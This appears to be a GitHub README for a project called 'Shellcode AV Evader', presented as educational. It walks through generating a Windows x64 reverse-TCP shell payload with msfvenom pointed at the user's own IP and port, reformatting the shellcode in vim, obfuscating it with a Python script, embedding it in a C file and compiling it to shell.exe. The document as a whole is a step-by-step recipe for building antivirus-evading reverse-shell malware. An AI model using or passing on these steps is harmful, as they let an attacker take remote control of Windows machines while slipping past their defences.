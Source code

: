 # Shellcode AV Evader
This project main only educational porpouses, the idea was based on
speachs of @Mr.Un1k0d3r and @mr.d0x

--- 

## Generate payload
`$ msfvenom -p windows/x64/shell/reverse_tcp LHOST=<YOUR_IP> LPORT=<PORT> -f c -o shellcode_c_payload.txt`

---

## open on vim
$ vim shellcode_c_payload.txt
```
:g /buf/d                   delete the line that contains "buf"
:s/;//                      remove `;`
:%s/"\(.*\)"/\1/            remove `"`
:%join                      join all lines in one
:s/\s\+//g                  remove blank spaces
:s/\(\\.\{3\}\)/"\1",/g     

result in string: "\xde",\xad","\xbe","\xef"...
```
after saving you can easily copy to clipboard using\
`$ cat shellcode_c_payload.txt | xclip -selection clipboard`

---

open file **dictionary_obfuscator.py** and paste the shellcode in the correct place

after running the code, take note of the length of the payload and 
use any text editor to remove `[`, `]` and replace all`'` for `"`

---
open file **reverse_shell.c**, paste the payload from python in the correct place as the size

---
compile with\
`$ x86_64-w64-mingw32-gcc -o shell.exe reverse_shell.c`


